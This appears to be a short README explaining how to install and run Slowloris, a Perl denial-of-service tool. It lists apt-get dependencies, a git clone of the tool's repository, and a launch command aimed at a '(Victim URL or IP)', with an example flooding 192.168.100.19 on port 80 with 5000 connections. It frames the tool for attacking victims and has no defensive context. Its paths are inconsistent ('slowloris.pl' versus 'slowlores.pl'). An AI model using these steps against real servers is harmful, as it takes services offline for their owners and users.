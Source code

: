 **Slow Loris Attack**

How use Slowloris

Requirements:
- sudo apt-get update  
- sudo apt-get install perl
- sudo apt-get install libwww-mechanize-shell-perl
- sudo apt-get install perl-mechanize

Get Slowloris File:
```
1) Open Terminal
   $> cd /home
2) Download slowloris.pl
   # $home/ git clone https://github.com/Amarudin2019/slowloris.pl.git
3) Choose the directory where the file is downloaded
   # $home/ cd slowloris.pl
4) Run application
   # $home/slowlores.pl/ perl slowloris.pl -dns (Victim URL or IP) -options
   Example:
   # $home/slowlores.pl/ perl slowloris.pl -dns 192.168.100.19 -port 80 -timeout 20 -num 5000 -cache
```
Done
